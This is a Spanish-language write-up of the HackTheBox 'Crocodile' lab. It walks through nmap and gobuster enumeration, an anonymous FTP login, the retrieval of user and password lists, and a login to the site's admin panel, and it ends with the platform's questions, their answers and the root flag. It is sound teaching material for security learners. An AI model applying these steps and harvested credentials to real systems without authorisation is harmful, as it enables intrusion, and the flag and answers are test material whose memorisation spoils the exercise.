





Resolución de la máquina Crocodile de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap, con -sCV para lanzar scripts de reconocimiento y ver versiones de los servicios corriendo
❯ nmap -sCV 10.129.239.154
Nmap scan report for 10.129.239.154
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r-- 1 ftp ftp 33 Jun 08 2021 allowed.userlist
|_-rw-r--r-- 1 ftp ftp 62 Apr 20 2021 allowed.userlist.passwd
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Dandole un vistazo a la web realmente es una plantilla sin nada interesante

Usando la extensión Wappalizer podemos ver que la web interpreta lenguaje php

Podemos fuzzear archivos con extensiones php con ayuda de gobuster, podemos ver /login.php
❯ gobuster dir -u 10.129.239.154 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php -t 100
===============================================================
[+] Url: http://10.129.239.154
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Extensions: php
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets (Status: 301) [Size: 317] [--> http://10.129.239.154/assets/]
/config.php (Status: 200) [Size: 0]
/fonts (Status: 301) [Size: 316] [--> http://10.129.239.154/fonts/]
/js (Status: 301) [Size: 313] [--> http://10.129.239.154/js/]
/css (Status: 301) [Size: 314] [--> http://10.129.239.154/css/]
/dashboard (Status: 301) [Size: 320] [--> http://10.129.239.154/dashboard/]
/logout.php (Status: 302) [Size: 0] [--> login.php]
/login.php (Status: 200) [Size: 1577]
Al revisar login.php podemos ver pues.... un login

No tenemos credenciales ni es vulnerable a sqli, asi que veamos ftp ya que esta abierto
❯ ftp 10.129.239.154
Connected to 10.129.239.154.
220 (vsFTPd 3.0.3)
Name (10.129.239.154:gato): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 ftp ftp 33 Jun 08 2021 allowed.userlist
-rw-r--r-- 1 ftp ftp 62 Apr 20 2021 allowed.userlist.passwd
226 Directory send OK.
ftp>
Podemos ver un archivo de usuarios y otro que parece tener las contraseñas, los descargamos
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (161.9425 kB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0.00 secs (304.2556 kB/s)
ftp> quit
221 Goodbye.
Leemos los archivos y efectivamente uno contiene usuarios y otro contraseñas
❯ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
❯ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
Podemos probar las credenciales en el login y las de admin funcionan, admin : rKXM59ESxesUFHAd

Una vez iniciada sesión con las credenciales podemos ver la flag

Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
What nmap scanning switch employs the use of default scripts during a scan?
- -sC
What service version is found to be running on port 21?
- vsftpd 3.0.3
What FTP code is returned to us for the "Anonymous FTP login allowed" message?
- 230
What command can we use to download the files we find on the FTP server?
- get
What is one of the higher-privilege sounding usernames in the list we retrieved?
- admin
What version of Apache HTTP Server is running on the target host?
- 2.4.41
What is the name of a handy web site analysis plug-in we can install in our browser?
- Wappalyzer
What switch can we use with gobuster to specify we are looking for specific filetypes?
- -x
What file have we found that can provide us a foothold on the target?
- login.php
Submit root flag
- c7110277ac44d78b6a9fff2232434d16